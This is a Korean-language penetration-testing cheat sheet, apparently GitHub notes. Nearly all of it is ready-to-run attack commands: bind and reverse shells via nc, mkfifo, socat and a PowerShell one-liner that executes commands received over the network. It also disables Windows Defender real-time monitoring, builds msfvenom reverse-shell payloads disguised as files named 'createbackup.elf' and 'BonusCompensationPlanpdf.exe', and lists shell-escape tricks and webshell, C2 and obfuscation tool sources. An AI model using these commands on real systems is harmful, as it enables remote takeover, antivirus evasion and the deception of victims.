 # 1. Bind Shells

### 서버 - Bash 셸을 TCP 세션에 바인딩
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 192.168.1.1 7777 > /tmp/f```<br/><br/>
```nc -nv 192.168.1.1 7777```

<br/><br/>
# 2. Reverse Shell
```nc -lvnp 8443```<br/>

### 클라이언트 - nc를 사용하여 연결
```nc -e /bin/sh 10.0.3.4 8443```

### 클라이언트 - Bash 셸과 nc 세션을 사용하여 연결
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.0.3.4 8443 > /tmp/f```

### 클라이언트 - socat을 사용하여 연결
```socat TCP4:10.10.3.4:8443 EXEC:/bin/bash```

### 클라이언트 - PowerShell을 사용하여 연결
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Windows Defender 비활성화(PowerShell 연결 차단될 경우)
```Set-MpPreference -DisableRealtimeMonitoring $true```

### 참고
[reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

<br/><br/>
# 3. Payload

### MSFvenom Payload 제작 (Linux용)
```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > createbackup.elf```

### MSFvenom Payload 제작 (Windows용)
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > BonusCompensationPlanpdf.exe```

### Search Exploit
```searchsploit 50064.rd```<br/>
경로 출력) ```searchsploit -p 50064.rd```<br/>
- Rapid 7의 [github의 리포지토리](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits) 참고

### Payload 생성 Resource
| **Resource**                            | **설명**                                                                                                                                                                                      |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [소스](https://github.com/rapid7/metasploit-framework) MSF는 모든 펜테스터 툴킷에 매우 다재다능한 도구입니다. 호스트를 열거하고, 페이로드를 생성하고, 공개 및 사용자 지정 익스플로잇을 활용하고, 호스트에서 익스플로잇 후 작업을 수행하는 방법으로 사용됩니다. 스위스 군용 칼이라고 생각하세요. |
| `Payloads All The Things`         | [소스](https://github.com/swisskyrepo/PayloadsAllTheThings) 여기에서는 페이로드 생성과 일반적인 방법론에 대한 다양한 리소스와 치트 시트를 찾을 수 있습니다.                                                                            |
| `Mythic C2 Framework`             | [소스](https://github.com/its-a-feature/Mythic) Mythic C2 프레임워크는 Metasploit에 대한 대안으로, 고유한 페이로드 생성을 위한 명령 및 제어 프레임워크이자 툴박스입니다.                                                                 |
| `Nishang`                         | [소스](https://github.com/samratashok/nishang) 니샹은 Offensive PowerShell 임플란트와 스크립트의 프레임워크 컬렉션입니다. 여기에는 모든 펜테스터에게 유용할 수 있는 많은 유틸리티가 포함되어 있습니다.                                                 |
| `Darkarmour`                      | [소스](https://github.com/bats3c/darkarmour) Darkarmour는 Windows 호스트를 상대로 사용하기 위해 난독화된 바이너리를 생성하고 활용하는 도구입니다.                                                                                 |

### TTY 쉘 생성
```python -c 'import pty; pty.spawn("/bin/bash")'```<br/>
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### 대화형 쉘(python 없는 경우)
```/bin/sh -i```<br/>
```perl —e 'exec "/bin/sh";'```<br/>
```perl: exec "/bin/sh";```<br/>
```ruby: exec "/bin/sh"```<br/>
```lua: os.execute('/bin/sh')```<br/>
```awk 'BEGIN {system("/bin/sh")}'```<br/>
```find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;```<br/>
```find . -exec /bin/sh \; -quit```<br/>
```vim -c ':!/bin/sh'```<br/>
```
vim
:set shell=/bin/sh
:shell
```

### sudo 권한 확인
```sudo -l```

<br/><br/>
# 4. WebShell

### Laudanum (all)
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) ```/usr/share/laudanum/```

### Antak Webshell (aspx)
[Nishang Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) ```/usr/share/nishang/Antak-WebShell```

### wwwolf-php-webshell (php)
[WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

